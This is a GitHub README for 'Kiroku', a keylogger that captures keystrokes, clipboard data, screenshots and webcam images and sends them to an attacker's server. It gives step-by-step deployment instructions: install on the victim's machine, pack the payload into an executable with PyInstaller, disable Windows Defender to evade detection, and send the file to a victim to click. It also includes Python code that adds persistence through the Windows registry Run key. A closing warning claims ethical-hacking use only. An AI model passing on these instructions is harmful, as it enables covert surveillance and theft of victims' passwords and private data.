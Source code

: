 # Kiroku Keylogger

![GIF](https://github.com/Kuraiyume/Kiroku/blob/main/kiroku.gif)

Kiroku Keylogger is a sophisticated tool designed to capture and monitor a wide range of user activities on a target system. It is equipped to log keystrokes, monitor clipboard contents, and take periodic screenshots and webcam image, which are then transmitted to a remote server at regular intervals.

## Payload Features

- **Keystroke Logging**: Captures all keystrokes, including special keys like Enter, Tab, and Backspace, and sends them to a specified server.
- **Clipboard Monitoring**: Continuously monitors clipboard content, detecting changes and sending the updated data to the server.
- **Screenshot Capture**: Takes screenshots at regular intervals and sends them to the server in a base64-encoded format.
- **Webcam Image Capture**: Takes webcam image at regular intervals and sends them to the server in a base64-encoded format also. (Not Compatible with Linux so we removed it)
- **Modifier Key Tracking**: Tracks the state of Ctrl, Alt, and Shift keys to accurately capture key combinations.
- **Configurable Intervals**: Allows customization of the intervals for sending keystrokes, clipboard data, and screenshots.
- **JSON Payloads**: Packages keystrokes, clipboard data, and screenshots into JSON format for server transmission.
- **Threaded Execution**: Runs keystroke logging, clipboard monitoring, and screenshot capture in separate threads for efficient performance.
- **Automatic Transmission**: Periodically sends captured data to the server without user intervention.
- **Base64 Encoding**: Encodes screenshots in base64 format before transmission to reduce the payload size.
- **Platform Compatibility**: Designed to work seamlessly on multiple platforms with minimal configuration changes.

## Server Features

- **Keystroke Logging**: Receives and logs keystrokes from the payload, saving them to a specified file.
- **Clipboard Data Capture**: Captures clipboard content from the payload and saves it to a specified file. Optionally logs clipboard data based on user preference.
- **Screenshot Handling**: Receives base64-encoded screenshots from the payload, decodes them, and saves them as PNG files in a specified directory.
- **Webcam handling**: Receives base64-encoded webcam images from the payload, decodes them, and saves them as a PNG files in a specified directory.
- **Victim IP Logging**: Logs the IP address of the victim alongside captured data to identify the source.
- **JSON Parsing and Error Handling**: Parses incoming data in JSON format and handles errors like invalid JSON or server issues with detailed logging.
- **Customizable Configuration**: Allows customization of the server port, file paths for saved keystrokes, clipboard data, and screenshot storage directory.
- **Threaded Execution**: Handles incoming POST requests concurrently, ensuring smooth and efficient server performance.
- **Logging**: Provides detailed logging of all activities, including received data, errors, and server operations.
- **Session Persistence**: Automatically reconnects and continues sessions if the server is restarted while the payload is still running, ensuring uninterrupted data capture.
- **Interactive Use**: The server offers GUI Interface for more interactive and customizable listening.

## Installation && Usage

- **Clone the repository:**
  ```bash
  git clone https://github.com/Kuraiyume/Kiroku
  ```

- **Install the necessary libraries:**
  ```bash
  pip3 install -r requirements.txt
  ```
  *You will need to install this in the victim's machine*
  
- **On the attacker machine, run the server:**
  ```bash
  python3 server.py
  ```
  *If Tkinter is not installed, install it using 'sudo apt install python3-tk'*

- **On the victim device configure the payload and run the script:**
  ```bash
  python3 payload_windows.py
  ```
  - If your target is Linux machine:
  ```bash
  python3 payload_linux.py
  ```

## How to make the payload run without the need of Python Interpreter?

- **You will need to install the required modules for the payload:**
  ```bash
  pip3 install -r requirements.txt
  ```
  *Ensure that all of the modules are installed!*

- **Configure the payload before we turn it to executable, change the server IP, Port, and the time intervals (if needed).**

- **We will use PyInstaller to convert our payload to a standalone executable (PyInstaller is included in the requirements.txt).**

- **We will use the 'payload.spec' file to convert our payload to executable, but first, configure it on how your executable should be packed based on your requirements.**

- **After Configuration, we will use PyInstaller along with the payload.spec to generate us an executable version of the payload:**
  ```bash
  pyinstaller payload.spec
  ```
  *Make sure to build the executable on the same OS as the target system to avoid compatibility issues due to architecture differences.*
  *If you're building the executable on windows, you should turn off the Real-Time Protection in Windows Defender to avoid detection while building.*

- **Once the conversion is done, you will see a dist folder that's where your executable lives. Now all you need to do is run the server on the attacker's machine and send the executable to the victim and wait for the victim to click it, once clicked, the payload will do its work.**
  
  *Ensure all configurations made before the conversion are correct and match the attacker's machine setup.*

- **If you want to make it persistent when you convert it to executable, you'll need to add a logic in the payload that can move itself to the windows registry when it's executable, Here's how you can do that:**
  1. Import the winreg and sys module to allow your payload to integrate with the registry and file system (sys):
     ```python
     import winreg
     import sys
     ```
  2. Add this function:
     ```python
     def add_to_registry():
         exe_path = sys.executable
         try:
             registry_key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, r"Software\Microsoft\Windows\CurrentVersion\Run", 0, winreg.KEY_SET_VALUE)
             key_name = 'Kiroku'
             winreg.SetValueEx(registry_key, key_name, 0, winreg.REG_SZ, exe_path)
             winreg.CloseKey(registry_key)
         except Exception as e:
             print(f"Failed to add executable to registry: {e}")
     ```
  3. Call the function to the main guard (AT THE BEGINNING):
     ```python
     if __name__ == "__main__":
         add_to_registry()
     ```
     
## Warning

This tool is intended strictly for educational purposes and ethical hacking only. Unauthorized use of this tool for malicious activities or without explicit consent is illegal and strictly prohibited.

- **Ethical Use Only:** Ensure that you have proper authorization before deploying or using this tool. It is meant to help understand security vulnerabilities and improve defenses, not to invade privacy or engage in unlawful activities.
- **Legal Compliance:** Be fully aware of and comply with all applicable laws and regulations in your jurisdiction. Misuse of this tool can result in severe legal consequences.
- **Responsibility:** The creator of this tool does not condone or support illegal activities. Use this tool responsibly and ethically to advance your knowledge and skills in cybersecurity.
  
Proceed with caution and integrity. Your actions reflect your respect for privacy and the law.

## License

- Kiroku is licensed under the GNU General Public License.

## Author

- Kuraiyume
